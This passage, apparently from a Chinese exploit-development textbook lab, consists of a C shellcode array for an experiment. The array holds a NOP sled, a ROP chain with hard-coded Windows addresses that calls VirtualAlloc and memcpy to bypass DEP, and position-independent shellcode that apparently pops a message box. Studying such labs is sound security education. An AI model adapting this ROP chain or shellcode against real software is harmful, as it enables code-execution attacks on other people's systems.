 #### 3.2 实验代码

<pre><code>
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;windows.h&gt;

char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\xBA\xD9\xBB\x7C"			// 修正EBP
	"\xBC\x45\x82\x7C"			// 申请空间
	"\x90\x90\x90\x90"
	"\xFF\xFF\xFF\xFF"			// -1 当前进程
	"\x00\x00\x03\x00"			// 申请空间起始地址
	"\xFF\x00\x00\x00"			// 申请空间大小
	"\x00\x10\x00\x00"			// 申请类型
	"\x40\x00\x00\x00"			// 申请空间访问类型
	"\x90\x90\x90\x90"
	"\x8A\x17\x84\x7C"			// pop eax retn
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x0B\x1A\xBF\x7C"			// pop pop retn
	"\xBA\xD9\xBB\x7C"			// 修正EBP retn 4
	"\x5F\x78\xA6\x7C"			// pop retn
	"\x00\x00\x03\x00"			// 可执行内存空间地址，转入执行用
	"\x00\x00\x03\x00"			// 可执行内存空间地址，复制用
	"\xBF\x7D\xC9\x77"			// push esp jmp eax && 原始shellcode起始地址
	"\xFF\x00\x00\x00"			// shellcode 长度
	"\xAC\xAF\x94\x7C"			// memcpy
	"\x00\x00\x03\x00"			// 一个可以读地址
	"\x00\x00\x03\x00"			// 一个可以读地址
	"\x00\x90\x90\x94"	
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8";
